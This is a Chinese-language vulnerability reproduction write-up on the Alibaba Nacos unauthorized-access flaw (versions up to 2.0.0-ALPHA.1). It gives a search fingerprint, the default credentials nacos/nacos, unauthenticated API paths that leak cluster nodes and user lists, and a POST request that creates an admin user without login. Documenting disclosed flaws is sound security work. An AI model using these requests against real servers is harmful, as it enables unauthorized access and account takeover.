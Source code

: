# Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

<a-checkbox checked>Nacos <= 2.0.0-ALPHA.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Nacos"</a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1" description="" showIcon>
</a-alert>
<br/>

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

默认账号密码 `nacos/nacos`

![img](../../../.vuepress/public/img/nacos-1.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![img](../../../.vuepress/public/img/nacos-2.png)



![img](../../../.vuepress/public/img/nacos-3.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![img](../../../.vuepress/public/img/nacos-4.png)



退出用户后在前台访问这个 url

```
/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=
```

![img](../../../.vuepress/public/img/nacos-5.png)



可以发现以及泄露了 `ip节点` 等数据,同样我们查看用户列表的请求并在前台访问

```
/nacos/v1/auth/users?pageNo=1&pageSize=9
```

![img](../../../.vuepress/public/img/nacos-7.png)



![img](../../../.vuepress/public/img/nacos-6.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![img](../../../.vuepress/public/img/nacos-8.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![img](../../../.vuepress/public/img/nacos-9.png)



![img](../../../.vuepress/public/img/nacos-10.png)
